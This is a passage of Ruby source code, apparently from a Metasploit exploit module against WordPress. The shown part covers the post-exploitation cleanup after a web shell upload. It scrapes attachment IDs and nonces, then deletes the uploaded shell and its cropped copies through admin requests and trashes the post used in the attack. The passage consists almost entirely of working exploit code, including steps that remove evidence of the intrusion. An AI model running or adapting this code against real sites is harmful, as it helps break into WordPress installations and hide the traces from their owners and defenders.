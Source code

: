         fail_with(Failure::NotFound, 'Failed to receive a response for uploaded file') unless res && res.code == 200 && !res.body.empty?
        infos = res.body.scan(/id":(\d+),.*filename":"cropped-#{shell_name}".*?"delete":"(\w+)".*"id":(\d+),.*filename":"cropped-x".*?"delete":"(\w+)".*"id":(\d+),.*filename":"#{shell_name}".*?"delete":"(\w+)"/).flatten
        id1, id2, id3 = infos[0], infos[2], infos[4]
        delete_nonce1, delete_nonce2, delete_nonce3 = infos[1], infos[3], infos[5]
        for i in (0...6).step(2)
          res = send_request_cgi(
            'method'    => 'POST',
            'uri'       => uri,
            'cookie'    => cookie,
            'vars_post'  => {
                'action' => "delete-post",
                'id'     => infos[i],
                '_wpnonce' => infos[i+1]
            }
          )
        end

        uri1 = normalize_uri(datastore['TARGETURI'], 'wp-admin', 'edit.php')
        res = send_request_cgi(
          'method'    => 'GET',
          'uri'       => uri1,
          'cookie'    => cookie
        )

        if res && res.code == 200 && res.body && !res.body.empty?
          post_nonce = res.body.scan(/post=#{post_id}&action=trash&_wpnonce=(\w+)/).flatten.first
          fail_with(Failure::NotFound, 'Unable to retrieve post nonce') unless post_nonce
          uri2 = normalize_uri(datastore['TARGETURI'], 'wp-admin', 'post.php')

          res = send_request_cgi(
            'method'    => 'GET',
            'uri'       => uri2,
            'cookie'    => cookie,
            'vars_get'  => {
              'post'     => post_id,
              'action'   => 'trash',
              '_wpnonce' => post_nonce
            }
          )

          fail_with(Failure::NotFound, 'Unable to retrieve response') unless res && res.code == 302
          res = send_request_cgi(
            'method'    => 'GET',
            'uri'       => uri1,
            'cookie'    => cookie,
            'vars_get'  => {
              'post_status' => "trash",
              'post_type'   => 'post',
              '_wpnonce' => post_nonce
            }
          )
